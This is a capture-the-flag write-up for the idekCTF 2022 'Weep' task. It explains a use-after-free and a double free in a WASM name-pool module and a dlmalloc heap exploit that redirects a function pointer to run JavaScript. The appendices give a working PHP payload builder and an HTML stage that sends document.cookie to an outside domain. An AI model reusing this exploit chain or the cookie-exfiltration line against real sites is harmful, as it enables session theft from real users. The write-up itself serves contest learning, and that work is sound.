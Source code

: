 # Weep - idekCTF 2022 (pwn, 8 solved, 497p)

## Introduction
Weep is a pwn task.

An archive containing a WASM binary, its source code, a website, and a
Dockerfile is given.

## Reverse engineering
The full source code is given away for this task.

There is a website that provides a web interface to interact with a WASM module.
The module exports 5 actions:
- add a new name in the pool
- delete a name from the pool
- edit a name
- greet (call `alert`) with a specific name
- change the title used in the greet option

The `setTitle` function has a unfulfillable condition that can be seen as a
hint:

```c
void setTitle(int val){
	if(val) title_fp = mrTitle;
	else title_fp = mrsTitle;
	if((long long)val == 0x1337133713371337) title_fp = emscripten_run_script;
}
```

This sets a function pointer that then gets called by `greet` (only once):

```c
void greet(int idx) {
	if(idx < 0 || idx >= MAX_TITLES) return;
	if(numCalls > 0) return;
	numCalls++;
	title_fp(titles[idx].name);
}
```


## Vulnerabilities
There is a use-after-free in `edit`: once a name has been deleted, nothing
prevents the user from editing the freed memory:

```c
void edit(int idx, char* name) {
	if(idx < 0 || idx >= MAX_TITLES) return;
	strncpy(titles[idx].name, name, titles[idx].len);
}
```

Similarly, nothing prevents the user from freeing twice the same name:

```c
void delete(int idx) {
	if(idx < 0 || idx >= MAX_TITLES) return;
	free(titles[idx].name);
}
```

## Exploitation
The [allocator] used by emscripten is based on Doug Lea's `dlmalloc`. It is the
same allocator that inspired glibc's `ptmalloc`.

[allocator]: https://github.com/emscripten-core/emscripten/blob/1eb457b031c0a85c2deec5f85c810abc669f0bff/system/lib/dlmalloc.c#L4632-L4885

There are no tcaches and no fastbins, but there are very few security checks.

The exploitation is pretty straightforward:
1. create a chunk;
2. delete it;
3. change its content to break the linked list;
4. allocate before the function pointer to change its value.

There is a small surprise : the target function will only evaluates JavaScript
code with a size below 24 characters.

The expected solution was probably to write a longer payload at an early address
in memory and call `eval(UTF8ToString(addr))`.

The author of this write-up leverage a short domain name to make 2-stage
exploit : the first stage redirects the bot to the second stage with
`location=...`.

The second stage creates a pop-up with a JavaScript payload in its name
attribute, and triggers the bug a second time to evaluate the window's name with
`eval(name)`.

**Flag**: `idek{Now_When_will_we_get_security_checks_in_the_heap_allocator?}`

## Appendices
### pwn.php
```php
<?php
$add   = fn(int $idx, string $name) : array => [0, $idx, $name];
$del   = fn(int $idx)               : array => [1, $idx];
$edit  = fn(int $idx, string $name) : array => [2, $idx, $name];
$greet = fn(int $idx)               : array => [3, $idx];
$title = fn(int $type)              : array => [4, $type];


$size = 0x29;

//          12345678901234567890123
$payload = 'eval(UTF8ToString(123))';
$payload = 'location="//xer.fr/yo/"';
assert(strlen($payload) <= 23);

$payload = [
	// add two chunks (to guard against top chunk)
	$add(0, str_repeat("A", $size)), // 0x10568
	$add(1, str_repeat("B", $size)),

	// delete first chunk, change its data
	$del(0),
	$edit(0, pack("V*", 0x10210, 0x13371337)),

	// allocate corrupted chunks
	$add(2, str_repeat("C", $size)),

	// overwrite function pointer
	$add(3, str_repeat("D", 0x28) . pack("V", 3)),

	// trigger payload
	$add(0, $payload),
	$greet(0),
];

echo base64_encode(json_encode($payload));
```

### index.html
```html
<script>
const host    = "http://localhost:1337/";
const payload = "W1swLDAsIkFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBIl0sWzAsMSwiQkJCQkJCQkJCQkJCQkJCQkJCQkJCQkJCQkJCQkJCQkJCQkJCQkJCQkIiXSxbMSwwXSxbMiwwLCJcdTAwMTBcdTAwMDJcdTAwMDFcdTAwMDA3XHUwMDEzN1x1MDAxMyJdLFswLDIsIkNDQ0NDQ0NDQ0NDQ0NDQ0NDQ0NDQ0NDQ0NDQ0NDQ0NDQ0NDQ0NDQ0NDIl0sWzAsMywiRERERERERERERERERERERERERERERERERERERERERERERERERERERFx1MDAwM1x1MDAwMFx1MDAwMFx1MDAwMCJdLFswLDAsImV2YWwobmFtZSkiXSxbMywwXV0="

const url = `${host}#${payload}`
window.open(url, "location.href='https://xer.fr/cb-'+document.cookie")
</script>
```
